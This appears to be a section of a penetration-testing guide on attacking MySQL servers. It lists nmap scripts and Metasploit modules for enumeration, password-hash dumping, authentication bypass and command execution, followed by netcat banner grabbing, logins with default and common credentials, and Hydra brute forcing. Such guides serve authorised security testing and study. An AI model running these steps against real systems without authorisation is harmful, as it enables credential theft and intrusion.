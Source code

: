 Some of the enumeration actions require valid credentials

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
```
```bash
msf> use auxiliary/scanner/mysql/mysql_version #version detection
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump #auth bypass dump
msf> use auxiliary/scanner/mysql/mysql_hashdump #password hashes
msf> use auxiliary/admin/mysql/mysql_enum #user enumeration
msf> use auxiliary/scanner/mysql/mysql_schemadump #schema dumping
msf> use exploit/windows/mysql/mysql_start_up #command execution
```
## Banner Grabbing
You can use Netcat to find out what service is running and its version by looking at the welcome message it shows when you connect. This method is called Banner Grabbing.
```
nc -nv X.X.X.X 3306
```
## Attack Vectors
### Default Credentials
MySQL databases may come with default or well-known accounts that lack strong passwords. Identifying and testing these accounts can provide an initial foothold without resorting to aggressive hacking techniques.

To test a default account, you might execute:
```
mysql -u root -p

#enter default or guessable password
```
## Common Credentials
If anonymous login is disabled on the MySQL server, trying common usernames and passwords like **admin, administrator , root , user, or test** can be a good initial step. This approach is less aggressive than attempting to guess passwords through brute force and is recommended to try first when accessing a server.
```
mysql -u <username> -p

#provide a common username
#provide a common password
```
### Bruteforcing Credentials
A brute-force attack involves trying many passwords or usernames to find the right one for accessing a system.

Tools like Hydra are designed for cracking into networks and can be used on services like MySQL, HTTP, SMB, etc. For MySQL, Hydra often carries out a dictionary attack, which means it uses a list of possible usernames and passwords from a file to try and log in.
